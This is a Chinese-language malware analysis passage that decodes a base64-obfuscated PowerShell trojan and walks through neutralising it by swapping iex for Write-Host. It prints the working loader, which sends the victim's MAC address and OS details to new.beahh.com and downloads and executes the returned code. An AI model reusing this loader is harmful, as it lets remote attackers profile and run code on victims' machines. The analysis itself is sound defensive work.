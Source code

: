 将后面的base64解密后：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x01.png)

得到如下代码：

```
while($true)
{
[System.Threading.Thread]::Sleep(200000);
[string]$m = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)
$q = [System.Net.WebRequest]::Create("http://new.beahh.com/startup.php?ver=1&mac="+$m+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObject Win32_OperatingSystem).OSArchitecture).GetResponse().GetResponseStream();
$r = (new-object System.IO.StreamReader $q).ReadToEnd() -replace "##";
$c = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($r));
iex $c;
[System.Threading.Thread]::Sleep(1000000);
}
```

外部是一个循环，将Sleep去除后，可以看到调用了`Invoke-Expression`，`Invoke-Expression`是一个能将变量的内容当作powershell表达式执行的函数。

而iex只是`Invoke-Expression`的别名。

下面简单演示几个例子：

```
PS C:\Users\Rvn0xsy> iex "Write-Host Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy> Write-Host Rvn0xsy
Rvn0xsy
PS C:\Users\Rvn0xsy> Invoke-Expression "Write-Host Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy>
```
将上述的木马脚本中iex替换成Write-Host即可：

```
while($true)
{

[string]$m = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)
$q = [System.Net.WebRequest]::Create("http://new.beahh.com/startup.php?ver=1&mac="+$m+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObject Win32_OperatingSystem).OSArchitecture).GetResponse().GetResponseStream();
$r = (new-object System.IO.StreamReader $q).ReadToEnd() -replace "##";
$c = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($r));
Write-Host $c;
}
```
在这里我们使用Windows 10自带的Windows Powershell ISE脚本调试器来进行后续的分析。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-02-23/0x02.png)
